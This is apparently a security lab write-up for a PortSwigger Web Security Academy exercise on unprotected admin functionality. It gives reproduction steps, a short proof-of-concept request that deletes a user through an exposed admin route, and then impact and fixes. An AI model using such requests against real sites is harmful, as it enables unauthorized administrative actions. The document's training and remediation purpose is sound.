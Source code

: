 
# PS-005 — Access Control: Unprotected Admin Functionality
**Date / Analyst:** 2025-09-05 — Christopher Araque
**Environment:** PortSwigger WSA — beginner access control lab

## TL;DR
- Admin endpoints were reachable by a non-admin user.
- Performed admin-only action successfully.
- Fix: enforce server-side role checks on every admin route; remove sensitive paths from robots; least-privilege.

## Scope & Target
- **Endpoint(s):** e.g., /admin, /admin/delete?username=carlos
- **Auth context:** Logged in as non-admin user shown by the lab, e.g., carlos
- **Method**: GET

## Steps to Reproduce
1) Enumerate admin path(s) (robots.txt, direct browse).
2) Access panel as non-admin; identify admin action.
3) Execute action; observe success.

## Evidence
- Screenshot:
  ![PS-005](../../evidence/ps-access/ps-005-screenshot.png)
- Request:
  [PS-005-request.txt](../../evidence/ps-access/ps-005-request.txt)


## PoC (key lines)
**Action executed as non-admin:**
Request
GET /administrator-panel/delete?username=carlos HTTP/2
Host: 0a1e0086040cf48780683f9a00f400bd.web-security-academy.net
Cookie: session=<redacted>

Response
HTTP/2 302 Found
Location: /administrator-panel
X-Frame-Options: SAMEORIGIN
Content-Length: 0


## Impact
Unauthorized administrative actions (account deletion/role changes), leading to account takeover or service disruption.

## Recommended Fix
- Server-side authorization on all admin routes (role/permission checks).
- Do not expose admin paths; defense-in-depth (rate-limit/WAF for admin endpoints).
- Least-privileged app/service accounts; audit logs/alerts for admin actions.

## OWASP Top 10:
  A01 – Broken Access Control

## CWE‑285:
  Improper Authorization
